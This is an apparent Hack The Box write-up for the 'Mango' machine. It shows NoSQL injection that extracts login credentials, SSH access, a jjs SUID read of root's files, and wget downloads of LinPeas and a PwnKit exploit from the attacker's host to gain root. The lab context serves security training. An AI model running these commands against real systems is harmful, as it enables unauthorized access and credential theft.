




# HTB - Mango

#### Ip: 10.10.10.162
#### Name: Mango
#### Rating: Medium

----------------------------------------------------------------------


### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Mango]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.162
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-09 10:30 CDT
Nmap scan report for 10.10.10.162
Host is up (0.082s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 6.78 seconds
```

Lets now scan these open ports using both the `-sV` and `-sC` flags to enumerate versions and to use basic scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Mango]
└─$ sudo nmap -sC -sV -T4 10.10.10.162 -p 22,80,443
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-09 10:41 CDT
Nmap scan report for 10.10.10.162
Host is up (0.069s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a88fd96fa6e4ee56e3ef54546d560cf5 (RSA)
|   256 6a1cba891eb0572ffe63e1617289b4cf (ECDSA)
|_  256 9070fb6f38aedc3b0b316864b04e7dc9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_http-title: Mango | Search Base
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.26 seconds
```

Ok cool, after reviewing the Nmap findings lets go ahead and add staging-order.mango.htb to the `/etc/hosts` file.

Navigating to staging-order.mango.htb on port 80 we find a login page:


Now with a name like Mango, my first thought is wondering if the database is MongoDB. Before spending much time trying to bypass this login with common SQL injection techniques, I try firing off https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration, to see if we can grab some credentials. 

This is an awesome exploit that uses regex to fuzz for usernames and passwords against nosql databases (like MongoDB). 

Lets try this exploit to get a list of possible users:

```text
┌──(ryan㉿kali)-[~/Tools/exploits]
└─$ python nosqli-user-pass-enum.py -m post -up username -pp password -op login:login -u http://staging-order.mango.htb/ -ep username
No pattern starts with '0'
No pattern starts with '1'
No pattern starts with '2'
No pattern starts with '3'
No pattern starts with '4'
No pattern starts with '5'
No pattern starts with '6'
No pattern starts with '7'
No pattern starts with '8'
No pattern starts with '9'
Pattern found that starts with 'a'
Pattern found: ad
Pattern found: adm
Pattern found: admi
Pattern found: admin
username found: admin
No pattern starts with 'b'
No pattern starts with 'c'
No pattern starts with 'd'
No pattern starts with 'e'
No pattern starts with 'f'
No pattern starts with 'g'
No pattern starts with 'h'
No pattern starts with 'i'
No pattern starts with 'j'
No pattern starts with 'k'
No pattern starts with 'l'
Pattern found that starts with 'm'
Pattern found: ma
Pattern found: man
Pattern found: mang
Pattern found: mango
username found: mango
...

2 username(s) found:
admin
mango
```

Great! The exploit was able to grab 2 usernames. Lets use the same exploit to grab some passwords now:

```text
┌──(ryan㉿kali)-[~/Tools/exploits]
└─$ python nosqli-user-pass-enum.py -m post -up username -pp password -op login:login -u http://staging-order.mango.htb/ -ep password
No pattern starts with '0'
No pattern starts with '1'
No pattern starts with '2'
No pattern starts with '3'
No pattern starts with '4'
No pattern starts with '5'
No pattern starts with '6'
No pattern starts with '7'
No pattern starts with '8'
No pattern starts with '9'
No pattern starts with 'a'
No pattern starts with 'b'
No pattern starts with 'c'
No pattern starts with 'd'
No pattern starts with 'e'
No pattern starts with 'f'
No pattern starts with 'g'
Pattern found that starts with 'h'
Pattern found: h3
Pattern found: h3m
Pattern found: h3mX
Pattern found: h3mXK
Pattern found: h3mXK8
Pattern found: h3mXK8R
Pattern found: h3mXK8Rh
Pattern found: h3mXK8RhU
Pattern found: h3mXK8RhU~
Pattern found: h3mXK8RhU~f
Pattern found: h3mXK8RhU~f{
Pattern found: h3mXK8RhU~f{]
Pattern found: h3mXK8RhU~f{]f
Pattern found: h3mXK8RhU~f{]f5
Pattern found: h3mXK8RhU~f{]f5H
password found: h3mXK8RhU~f{]f5H
No pattern starts with 'i'
No pattern starts with 'j'
No pattern starts with 'k'
No pattern starts with 'l'
No pattern starts with 'm'
No pattern starts with 'n'
No pattern starts with 'o'
No pattern starts with 'p'
No pattern starts with 'q'
No pattern starts with 'r'
No pattern starts with 's'
Pattern found that starts with 't'
Pattern found: t9
Pattern found: t9K
Pattern found: t9Kc
Pattern found: t9KcS
Pattern found: t9KcS3
Pattern found: t9KcS3>
Pattern found: t9KcS3>!
Pattern found: t9KcS3>!0
Pattern found: t9KcS3>!0B
Pattern found: t9KcS3>!0B#
Pattern found: t9KcS3>!0B#2
password found: t9KcS3>!0B#2
...

2 password(s) found:
h3mXK8RhU~f{]f5H
t9KcS3>!0B#2
```

From here I'll add the usernames and passwords to files users.txt and passwords.txt, respectively. Once added I'll use Hydra to see if we have a valid combo to login to SSH with:



Cool, looks like we can SSH as user mango:

```text
┌──(ryan㉿kali)-[~/HTB/Mango]
└─$ ssh mango@10.10.10.162 
The authenticity of host '10.10.10.162 (10.10.10.162)' can't be established.
ED25519 key fingerprint is SHA256:tzYGTA/kNsB/kThvsmrv2uxaUS/2zS/grRQkrbN4+RE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.162' (ED25519) to the list of known hosts.
mango@10.10.10.162's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
```

The user.txt flag is in the admin users home directory, and mango does not have permissions to read it. Lets try to switch user to the admin using the other password we discovered:

```text
mango@mango:/home/admin$ ls -la
total 24
drwxr-xr-x 2 admin admin 4096 Sep 30  2019 .
drwxr-xr-x 4 root  root  4096 Sep 27  2019 ..
lrwxrwxrwx 1 admin admin    9 Sep 27  2019 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 admin admin 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 admin admin  807 Apr  4  2018 .profile
-r-------- 1 admin admin   33 May  9 15:30 user.txt
mango@mango:/home/admin$ cat user.txt
cat: user.txt: Permission denied
mango@mango:/home/admin$ su admin
Password: 
$ whoami
admin
```

Cool, that worked! Now we can grab that user.txt flag, after running `python3 -c 'import pty;pty.spawn("/bin/bash")'` to stabilize the shell:


### Privilege Escalation

After poking around the box manually for awhile, I wasn't seeing much and decided to upload LinPeas to help out with enumeration. I started a Python web server using `python -m http.server 80` and grabbed the linpeas.sh file using wget:

```text
admin@mango:/tmp$ wget http://10.10.14.13/linpeas.sh
--2023-05-09 16:10:57--  http://10.10.14.13/linpeas.sh
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 758.76K  1.13MB/s    in 0.7s    

2023-05-09 16:10:58 (1.13 MB/s) - ‘linpeas.sh’ saved [776967/776967]

admin@mango:/tmp$ chmod +x linpeas.sh
admin@mango:/tmp$ ./linpeas.sh
```

LinPeas quickly finds that `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs` has the SUID bit set.


Lets see if we can use https://gtfobins.github.io/ here. Looks like there is an interesting series of commands we can run to use jjs to read files. Lets try to use this to read the root.txt file:



Lets try to run the following:

```text
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

Nice! That worked and we were successfully able to read the root.txt flag.



### Something Extra

While I believe the above jjs privesc was the intended route, I always prefer to have an actual shell as root. Going back to my LinPeas output, I see it picked up another possibility to escalate privileges: PwnKit.



This is extremely simple to exploit, and is also extremely common on older, unpatched machines.

```text
admin@mango:/tmp$ wget http://10.10.14.13/PwnKit
--2023-05-09 16:33:32--  http://10.10.14.13/PwnKit
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.08s   

2023-05-09 16:33:32 (233 KB/s) - ‘PwnKit’ saved [18040/18040]

admin@mango:/tmp$ chmod +x PwnKit
admin@mango:/tmp$ ./PwnKit
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@mango:/tmp# whoami
root
```

Always nice to have more than one way to get things done, just in case tools aren't behaving properly, or your goals/targets change.

Thanks for following along!

-Ryan

-----------------------------------------------
